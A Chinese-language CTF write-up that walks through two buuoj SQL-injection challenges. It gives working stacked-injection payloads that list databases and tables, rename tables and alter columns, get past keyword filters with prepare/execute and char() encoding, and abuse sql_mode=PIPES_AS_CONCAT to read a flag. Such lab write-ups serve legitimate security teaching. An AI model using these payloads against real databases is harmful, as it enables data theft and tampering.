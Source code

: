 # 1.[强网杯 2019]随便注入

来源：buuoj

## 方法1 ： 别名+堆叠注入

解题思路：

1. 判断注入位置是字符型还是整形。输入单引号，发现有错误,是字符型

2. 查看数据库

   ```
   1';show databases;#
   ```

   ![image-20210719103447286](https://github.com/Biusec/19Grade_CTFSummerTraining/tree/main/7%E6%9C%8818%E6%97%A5%E7%AC%AC%E4%BA%8C%E6%AC%A1%E6%8F%90%E4%BA%A4/Throokie/sql%E6%B3%A8%E5%85%A5.assets/image-20210719103447286.png)

3. 查看表，和查看表结构

   ```
   0';show tables;#
   0';desc `1919810931114514`;# 
   //	反引号不能去掉。不然mysql不会认为这是一个表，而是认为你输入了奇怪的数字
   
   ```

   ![image-20210719103557271](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103557271.png)

   ![image-20210719103610188](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103610188.png)

4. select 查数据，发现有过滤

![image-20210719103714100](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103714100.png)

5. 猜测后端查询语句

   ```
   select id, data from words where id = 
   ```

6. 改别名。将需要查询的表改成words。表里的字段改成id，data。内容不变

   ```
   //改表别名
   0';rename table words to test;rename table `1919810931114514` to words;
   //改表字段名
   alter table words change flag id varchar(100);
   
   //一定要合起来一起改。不然改了表名没改字段名，查询时就会出错。后面就改不了字段名
   
   //最终payload;
   0';rename table words to test;rename table `1919810931114514` to words;alter table words change flag id varchar(100);
   ```

7. 查询

   ```
   1' or 1=1#  //爆出全部数据
   ```

   ![image-20210719112200300](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112200300.png)



## 方法2：预处理 + 编译

预处理介绍

1. 设置预处理语句：

   ```sql
   prepare name1 from 'select * from mysql.user';
   #名name1，执行的语句: select * from mysql.user
   ```

![image-20210719112243807](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112243807.png)

2. 执行预处理语句: 

   ```sql
   execute name1;
   ```

![image-20210719112409783](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112409783.png)

3. 查版本

   ```sql
   1';prepare name from concat(char(115,101,108,101,99,116), ' version()');execute name;#
   
   #char(115,101,108,101,99,116) 是字符串 'select' 的ascii码
   
   #这一段代码相当于  select version()
   ```

   ![image-20210719112615532](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112615532.png)

4. 查flag

   ```sql
   1';prepare name from concat(char(115,101,108,101,99,116), ' flag from `1919810931114514`');execute name;#
   
   #相当于 select flag from `1919810931114514`
   ```

   ![image-20210719112647841](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112647841.png)



# 2.[SUCTF 2019]EasySQL1

来源：buuoj

思路：

1. 进入网站，有个框框，输入数字1返回的内容和之前堆叠注入那题很像。马上用堆叠注入

   ![image-20210719112801566](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112801566.png)

2. 查表

   ![image-20210719112814331](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112814331.png)

3. 查字段，发现有过滤。经过检查过滤了flag, from等关键词

   ![image-20210719112830210](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112830210.png)

4. from被过滤，预处理也不行了。最后查网上发现这里的源码可能为

   ```sql
   select $_POST[‘query’] || flag from Flag
   ```



## 方法1：sql_mode=PIPES_AS_CONCAT



将||当成字符串连接符

```sql
payload: 1;set sql_mode=PIPES_AS_CONCAT;select 1
#拼接后的查询语句： select 1||flag from Flag
```

select 1 from Flag 结果是1
select flag from Flag 结果是 [flag]

||令它们结果连接，就是 1[flag]

![image-20210719113111915](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113111915.png)



## 方法2：

将||当成逻辑运算符

```sql
payload: *,1
#拼接后的语句: select *,1||flag from Flag
#相当于
#select * from Flag
#select 1||flag from Flag
```

![image-20210719113301160](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113301160.png)

为什么后面会返回1？

比如下面

![image-20210719113324945](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113324945.png)

![image-20210719113336378](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113336378.png)

![image-20210719113826982](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113826982.png)

![image-20210719113511860](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113511860.png)



最后我测试了几下，发现：

成功运行的条件是：

```sql
数字||存在的字段
```